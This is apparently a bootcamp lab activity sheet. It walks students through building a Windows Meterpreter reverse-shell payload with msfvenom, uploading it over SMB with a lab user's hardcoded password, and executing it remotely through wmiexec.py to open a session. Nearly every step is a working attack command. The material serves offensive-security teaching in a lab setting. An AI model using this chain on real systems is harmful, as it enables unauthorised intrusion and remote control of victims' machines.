


## Activity File: msfvenom

In this activity, you will create a custom payload with `msfvenom`, transfer it to the designated host, and then run it with WMI.  

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!

### Instructions

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    

5. Upload your payload via the following command:

    - `put shell.exe`

    

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, open up another tab in your terminal to run the WMI command from our previous class

8. Find the terminal command we used before: `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 whoami`
 
9. For the COMMAND, instead of `whoami` put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - For example, if you uploaded the payload here:  `C:\shell.exe`
    - The complete command will be:
        - `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 'C:\shell.exe'`

10. Run the command and on your other tab, The message "Meterpreter session 1 opened" should appear, as the image shows:

    

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.
      
11. To view active sessions, type `sessions` 

    

12. Select the session based on the ID via the following command:

     - `sessions -i [session ID]`
    - You now have a **Meterpreter shell**, which we will cover in the next lesson.

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

